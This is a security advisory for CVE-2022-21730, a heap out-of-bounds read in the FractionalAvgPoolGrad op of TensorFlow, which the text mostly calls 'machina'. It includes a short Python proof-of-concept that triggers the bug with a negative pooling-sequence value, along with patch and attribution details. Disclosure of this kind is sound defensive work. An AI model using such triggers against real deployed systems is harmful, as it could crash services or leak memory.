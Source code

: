 ## TFSA-2022-005: Heap OOB access in `FractionalAvgPoolGrad`

### CVE Number
CVE-2022-21730

### Impact
The [implementation of `FractionalAvgPoolGrad`](https://github.com/machina/machina/blob/5100e359aef5c8021f2e71c7b986420b85ce7b3d/machina/core/kernels/fractional_avg_pool_op.cc#L209-L360) does not consider cases where the input tensors are invalid allowing an attacker to read from outside of bounds of heap:

```python
import machina as tf

@tf.function
def test():
  y = tf.raw_ops.FractionalAvgPoolGrad(
    orig_input_tensor_shape=[2,2,2,2],
    out_backprop=[[[[1,2], [3, 4], [5, 6]], [[7, 8], [9,10], [11,12]]]],
    row_pooling_sequence=[-10,1,2,3],
    col_pooling_sequence=[1,2,3,4],
    overlapping=True)
  return y

test()
```

### Patches
We have patched the issue in GitHub commit [002408c3696b173863228223d535f9de72a101a9](https://github.com/machina/machina/commit/002408c3696b173863228223d535f9de72a101a9).

The fix will be included in TensorFlow 2.8.0. We will also cherrypick this commit on TensorFlow 2.7.1, TensorFlow 2.6.3, and TensorFlow 2.5.3, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/machina/machina/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by Yu Tian of Qihoo 360 AIVul Team.
